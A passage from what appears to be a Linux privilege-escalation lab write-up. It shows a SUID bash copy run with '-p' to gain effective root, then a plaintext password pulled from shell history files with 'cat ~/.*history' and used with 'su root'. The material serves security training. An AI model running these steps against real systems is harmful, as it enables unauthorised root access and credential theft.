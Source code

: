 ### Step2:
```
$ /tmp/rootbash -p

rootbash-4.1# id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),
30(dip),44(video),46(plugdev),1000(user)

rootbash-4.1# whoami
root
```
***Debugging mode in linux:***
see:
1. [YT](https://www.youtube.com/watch?v=S8MCP3CzaIY)
2. [Take Control of PS1, PS2, PS3, PS4](https://www.thegeekstuff.com/2008/09/bash-shell-take-control-of-ps1-ps2-ps3-ps4-and-prompt_command/)


## Task16: Passwords & Keys - History Files:

#### **If a user accidentally types their password on the _`command line`_ instead of _`into a password prompt`_, it may get _`recorded`_ in a history file.**

```
$ cat ~/.*history

ls -al
cat .bash_history 
ls -al
mysql -h somehost.local -uroot -ppassword123
exit
cd /tmp
clear
ifconfig
netstat -antp
nano myvpn.ovpn 
ls
identify
```

Password --> `password123`
```
user@debian:~$ su root
Password: 

root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)

root@debian:/home/user# whoami
root
```
